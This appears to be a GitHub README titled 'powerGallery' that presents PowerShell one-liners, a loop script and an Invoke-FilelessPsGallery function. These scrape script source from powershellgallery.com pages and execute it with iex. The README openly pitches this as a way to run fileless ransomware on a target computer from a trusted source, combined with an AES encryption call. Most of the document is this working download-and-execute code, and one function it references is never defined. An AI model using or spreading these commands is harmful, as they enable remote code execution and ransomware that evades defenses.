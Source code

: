 # powerGallery

This one liner will load the neccessary files to encrypt a system straight from the trusted powershellgallery.com website.
Used in conjunction with a simple for loop its is now fileless ransomware hosted and executed from your platform

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex
```

Next its as simple as running the commands stored in that module agaisnt the system
In this instance we can encrypt a string, but why stop there? 

```powershell
$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

Combining them into a simple one liner. Together with yet another simple functionality the `for loop` you should be able to see the danger
We could run fileless ransomware on a target computer all from a trusted source

```powershell
([regex]::Matches((irm "https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1"),'(?<=<td class="fileContent .*?">).*?(?=<\/td>)','s').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<[^>]*>'-replace'^\s*',''-replace '[^\x20-\x7E]'|iex;$encryptedMessage = Protect-AESMessage -Message "Sensitive Data" -Password "89c57yj78754cth8"
```

# Get Current Version

```powershell
# Define the regex pattern to extract content from <h2> within the specified <article> class
$pattern = '<article class="col-sm-12 col-md-8 package-details-main special-margin-left">.*?<h2>(.*?)</h2>'

# Perform the regex match
$match = [regex]::Match($html, $pattern, [System.Text.RegularExpressions.RegexOptions]::Singleline)

# Extract the value
if ($match.Success) {
    $h2Content = $match.Groups[1].Value.Trim()
    # Output the content of the <h2> tag
    $h2Content
} else {
    "No <h2> tag found within the specified <article> class."
}
```


You can use this function to grab the links of all the .ps1 files in a module from the powershell gallery website
## FUNCTION NOT CURRENTLY WORKING, USE THIS SCRIPT INSTEAD OF THE FUNCTION

```powershell
$module = 'PsAES'
$mod = "https://www.powershellgallery.com/packages/$module"
$content = Invoke-RestMethod -Uri $mod
$regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
$matches = [regex]::Matches($content, $regex)
$baseURL = "https://www.powershellgallery.com"
foreach ($match in $matches) {
$relativeLink = $match.Groups[1].Value
$fullLink = $baseURL + $relativeLink
([regex]::Matches((irm "$fullLink"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```

```powershell
function Invoke-FilelessPsGallery {
    param ([string]$module)
    try {

        $mod = "https://www.powershellgallery.com/packages/$module"
        write-host "--> $mod"
        
        $content = Invoke-RestMethod -Uri $mod
        $regex = '<a\s+[^>]*href="([^"]+\.ps1)"[^>]*>'
        $matches = [regex]::Matches($content, $regex)
        $baseURL = "https://www.powershellgallery.com"
        $ps1Links = @()
        foreach ($match in $matches) {
            $relativeLink = $match.Groups[1].Value
            $fullLink = $baseURL + $relativeLink
            $ps1Links += $fullLink
        }
        #return $ps1Links
        foreach ($url in $ps1Links){([regex]::Matches((irm "$url"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
    }
    catch {
        Write-Error "An error occurred: $_"
    }
}
```

Syntax:

```powershell
$urls = get-Ps1Urls -Url "https://www.powershellgallery.com/packages/PSAES/1.0.0.5"
```


```powershell
$urls = @("https://www.powershellgallery.com/packages/PSAES/1.0.0.5/Content/Protect-AESMessage.ps1")

foreach ($url in $urls){([regex]::Matches((irm "$url"), '(?<=<td class="fileContent .*?">).*?(?=<\/td>)', 's').Value|%{[System.Net.WebUtility]::HtmlDecode($_)})-replace'<(?!#)[^>]+>|(?<!<#)>(?![^#])',''|iex}
```











